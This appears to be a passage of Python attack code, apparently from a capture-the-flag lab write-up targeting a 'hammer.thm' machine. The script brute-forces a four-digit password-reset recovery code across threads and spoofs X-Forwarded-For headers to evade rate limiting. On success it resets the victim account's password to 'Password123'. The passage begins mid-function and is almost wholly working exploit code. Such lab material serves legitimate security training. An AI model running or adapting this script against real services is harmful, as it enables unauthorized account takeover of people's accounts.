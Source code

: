 ```
        try:
            r = session.post(
                url,
                data={"recovery_code": code_str, "s": "180"},
                headers={
                    "X-Forwarded-For": f"127.0.{random.randint(0, 255)}.{random.randint(0, 255)}"
                },
                timeout=10,
                allow_redirects=False,
            )
            if stop_flag.is_set():
                return
            elif r.status_code == 302:
                stop_flag.set()
                print("[-] Timeout reached. Try again.")
                return
            elif "Invalid or expired recovery code!" not in r.text:
                stop_flag.set()
                print(f"[+] Found the recovery code: {code_str}")
                print("[+] Sending the new password request.")
                new_password = "Password123"
                session.post(
                    url,
                    data={
                        "new_password": new_password,
                        "confirm_password": new_password,
                    },
                    headers={
                        "X-Forwarded-For": f"127.0.{random.randint(0, 255)}.{random.randint(0, 255)}"
                    },
                )
                print(f"[+] Password is set to {new_password}")
                return
        except requests.exceptions.RequestException as e:
            print(f"Error: {e}")
            continue

def main():
    print("[+] Sending the password reset request.")
    session.post(url, data={"email": "tester@hammer.thm"})
    print("[+] Starting the code brute-force.")
    code_range = 10000
    step = code_range // num_threads
    threads = []
    for i in range(num_threads):
        start = i * step
        end = start + step
        thread = threading.Thread(target=brute_force_code, args=(start, end))
        threads.append(thread)
        thread.start()
    for thread in threads:
        thread.join()

if __name__ == "__main__":
    main()
```
